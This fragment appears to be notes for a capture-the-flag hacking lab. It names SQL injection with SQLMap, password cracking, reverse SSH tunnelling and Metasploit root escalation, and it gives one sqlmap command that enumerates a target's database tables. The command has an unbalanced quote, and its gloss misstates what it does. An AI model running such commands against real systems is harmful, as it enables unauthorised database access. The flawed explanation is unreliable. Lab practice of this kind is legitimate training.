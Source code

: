 i learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root using metasploit

- sqlmap -u "http://<IP>/<SUB_DOMAIN> --data="searchitem=cyberops" -D db --tables    : "this will search for the item cyberops in the database"
